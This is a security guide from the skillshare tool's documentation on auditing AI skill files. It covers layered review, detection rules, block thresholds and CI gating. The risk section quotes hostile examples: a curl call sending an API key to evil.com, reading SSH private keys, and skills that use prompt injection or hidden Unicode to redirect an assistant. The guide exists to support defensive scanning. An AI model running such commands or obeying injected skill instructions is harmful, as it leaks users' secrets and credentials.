

# Securing Your Skills

AI skills are powerful — they instruct AI assistants to read files, run commands, and interact with your system. This guide helps you build a security workflow around skill installation and maintenance.

For the full command reference, see [`audit`](/docs/commands/audit).

## The Risk: AI Skill Supply Chain

Unlike traditional packages that run in sandboxed runtimes, AI skills operate through **natural language instructions** that the AI interprets and executes directly. A compromised skill can instruct an AI to:

- Exfiltrate secrets (`curl https://evil.com?key=$API_KEY`)
- Read credentials (`cat ~/.ssh/id_rsa`)
- Override safety behavior via prompt injection
- Hide malicious intent with zero-width Unicode characters

:::caution

A single malicious skill can access anything your AI assistant can — environment variables, SSH keys, cloud credentials, source code. Automated scanning catches known patterns, but **human review remains essential**.

For a detailed threat model and detection rules, see [Why Security Scanning Matters](/docs/commands/audit#why-security-scanning-matters).

:::

## Defense in Depth

No single layer catches everything. Combine manual review, automated scanning, custom policies, and CI/CD gates:

| Layer | Tool | What it does |
|-------|------|-------------|
| **Review** | Manual | Read SKILL.md before installing — check for suspicious commands |
| **Audit** | `skillshare audit` | Automated pattern detection (31 built-in rules, 5 severity levels) |
| **Custom Rules** | `audit-rules.yaml` | Organization-specific patterns (internal secrets, allowlists) |
| **CI/CD** | Pipeline gate | Block PRs that introduce risky skills |

### Supply-Chain Security Lifecycle

Security checkpoints depend on how a skill is installed (`--track` vs regular install):



**Key design:**
- **Regular skill install/update** — audit runs before acceptance; successful installs/updates write `file_hashes` metadata
- **Tracked repo install gate** — fresh `--track` installs are audited across the whole cloned repository before acceptance
- **Tracked repo update gate** — `skillshare update` audits after `git pull`; HIGH/CRITICAL findings trigger rollback automatically in non-interactive mode
- **Integrity verification scope** — `content-*` hash checks run only when `file_hashes` metadata exists

## Security Checklist

:::tip Three-stage checklist

**Before installing:**
- [ ] Review the source repository (stars, contributors, recent activity)
- [ ] Read the SKILL.md — look for `curl`, `wget`, `eval`, credential paths
- [ ] Dry-run first: `skillshare install <source> --dry-run`

**After installing:**
- [ ] Run `skillshare audit` and review all findings
- [ ] Check for HIGH/MEDIUM findings even if the skill "passed" (default threshold is CRITICAL)
- [ ] Re-audit periodically — new rules may catch previously undetected patterns

**For teams:**
- [ ] Set `audit.block_threshold: HIGH` in config
- [ ] Create custom rules for organization-specific secret patterns
- [ ] Add audit to your CI pipeline for shared skill repositories
- [ ] Schedule periodic scans (see [Periodic Scanning](#periodic-scanning) below)

:::

## Organizational Policy

### Block Threshold

The default threshold only blocks `CRITICAL` findings. For teams, a stricter threshold is recommended:

```yaml
# ~/.config/skillshare/config.yaml
audit:
  block_threshold: HIGH  # Blocks HIGH and CRITICAL findings
```

This catches obfuscation, destructive commands, and hidden content injection — patterns that are almost always malicious in skill files.

### Custom Rules

Add organization-specific detection patterns. Common use cases:

- Internal API key formats (`corp-api-key-*`, `internal-token-*`)
- Disallowed domains or services
- Suppressing false positives for trusted CI automation

```yaml
# ~/.config/skillshare/audit-rules.yaml
rules:
  - id: internal-token-leak
    severity: HIGH
    pattern: internal-token
    message: "Internal API token pattern detected"
    regex: '(?i)\b(corp-api-key|internal-token)-[A-Za-z0-9]{10,}\b'

  - id: destructive-commands-2
    severity: MEDIUM
    pattern: destructive-commands
    message: "Sudo usage (downgraded for CI automation)"
    regex: '(?i)\bsudo\s+'
```

For the full custom rules reference (merge semantics, disabling rules, exclude patterns), see [`audit` — Custom Rules](/docs/commands/audit#custom-rules).

### Periodic Scanning

Rules evolve — a skill that was clean at install time may match new rules added later. Schedule periodic scans:

```bash
# crontab: scan all skills weekly, log results
0 9 * * 1 skillshare audit --json >> /var/log/skillshare-audit.json 2>&1
```

## CI/CD Integration

### Basic Pipeline Gate

```bash
# Fail the pipeline if any skill has HIGH+ findings
skillshare audit --threshold high
# Exit code: 0 = clean, 1 = findings found
```

### Real-World Example: Skill Hub PR Validation

The [skillshare-hub](https://github.com/runkids/skillshare-hub) community repository uses `skillshare audit` to gate pull requests. Every PR that modifies skills is automatically scanned, and audit results are posted as a PR comment:

```yaml
# .github/workflows/validate-pr.yml (simplified)
name: Validate PR
on:
  pull_request:
    paths: ['skills/**']

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Install skillshare
        run: |
          curl -fsSL https://skillshare.runkids.cc/install.sh | sh

      - name: Audit new skills
        run: skillshare audit --threshold high

      - name: Fail if audit failed
        if: failure()
        run: exit 1
```

For the full workflow (including PR comment reporting and artifact upload), see the [validate-pr.yml source](https://github.com/runkids/skillshare-hub/blob/main/.github/workflows/validate-pr.yml).

For more CI/CD patterns (JSON output with `jq`, GitHub Actions with artifact upload), see [`audit` — CI/CD Integration](/docs/commands/audit#cicd-integration).

## See Also

- [`audit`](/docs/commands/audit) — Full command reference (detection rules, risk scoring, custom rules)
- [Best Practices](./best-practices.md) — Naming, organization, and security hygiene
- [Project Setup](./project-setup.md) — Project-scoped skill configuration
